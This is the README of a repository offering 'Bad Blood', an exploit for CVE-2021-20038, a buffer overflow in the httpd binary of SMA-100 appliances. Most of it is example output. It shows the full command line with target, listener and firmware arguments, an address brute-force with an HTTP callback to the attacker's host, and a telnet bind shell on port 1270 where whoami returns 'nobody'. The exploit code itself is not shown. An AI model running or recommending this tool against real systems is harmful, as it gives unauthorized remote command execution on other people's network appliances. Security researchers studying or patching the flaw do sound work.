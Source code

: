 # Bad Blood

Bad Blood is an exploit for [CVE-2021-20038](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-20038), a stack-based buffer overflow in the `httpd` binary of SMA-100 series systems using firmware versions 10.2.1.x. I've written a lot of the technical details here:

* [AttackerKB CVE-2021-20038](https://attackerkb.com/topics/QyXRC1wbvC/cve-2021-20038/rapid7-analysis)

The exploit, as written, will open up a telnet bind shell on port 1270. An attacker that connects to the shell will achieve execution as `nobody`.

## Example Output

```
albinolobster@ubuntu:~/badblood$ date
Mon Jan 10 01:15:12 PM PST 2022
albinolobster@ubuntu:~/badblood$ python3 badblood.py --rhost 10.0.0.7 --lhost 10.0.0.3 --rversion 10.2.1.2-24sv

▄▄▄▄    ▄▄▄      ▓█████▄     ▄▄▄▄    ██▓     ▒█████   ▒█████  ▓█████▄     
▓█████▄ ▒████▄    ▒██▀ ██▌   ▓█████▄ ▓██▒    ▒██▒  ██▒▒██▒  ██▒▒██▀ ██▌  
▒██▒ ▄██▒██  ▀█▄  ░██   █▌   ▒██▒ ▄██▒██░    ▒██░  ██▒▒██░  ██▒░██   █▌
▒██░█▀  ░██▄▄▄▄██ ░▓█▄   ▌   ▒██░█▀  ▒██░    ▒██   ██░▒██   ██░░▓█▄   ▌ 
░▓█  ▀█▓ ▓█   ▓██▒░▒████▓    ░▓█  ▀█▓░██████▒░ ████▓▒░░ ████▓▒░░▒████▓ 
░▒▓███▀▒ ▒▒   ▓▒█░ ▒▒▓  ▒    ░▒▓███▀▒░ ▒░▓  ░░ ▒░▒░▒░ ░ ▒░▒░▒░  ▒▒▓  ▒ 
▒░▒   ░   ▒   ▒▒ ░ ░ ▒  ▒    ▒░▒   ░ ░ ░ ▒  ░  ░ ▒ ▒░   ░ ▒ ▒░  ░ ▒  ▒  
 ░    ░   ░   ▒    ░ ░  ░     ░    ░   ░ ░   ░ ░ ░ ▒  ░ ░ ░ ▒   ░ ░  ░  
 ░            ░  ░   ░        ░          ░  ░    ░ ░      ░ ░     ░     
      ░            ░               ░                            ░       

[+] Spinning up HTTP server
[+] User did not provide an address. We'll guess it.
[+] Generated 2047 base addresses
[+] Generated 1046017 total addresses to search
[+] Filtering addresses for double visits (thanks awesome payload!)
[+] Filtered down to 235533 total addresses to search
[+] Crashing all forks to reset stack to a semi-predicatable state
[+] Crashing complete. Good job. Let's go do work.
[+] Disabling stderr
[+] Spawning 4 workers
[+] Attempting to exploit the remote server. This might take quite some time. :eek:
[%] Addresses Tested: 70%
[*] Received an HTTP callback from 10.0.0.7 at 10/Jan/2022 14:38:03
[*] Now we got bad blood. Hey! 🦞
albinolobster@ubuntu:~/badblood$ telnet 10.0.0.7 1270
Trying 10.0.0.7...
Connected to 10.0.0.7.
Escape character is '^]'.

bash-4.2$ whoami
nobody
bash-4.2$ uname -a
Linux sslvpn 3.13.3 #1 SMP Tue Oct 12 09:52:15 GMT 2021 i686 i686 i386 GNU/Linux
bash-4.2$ 
```

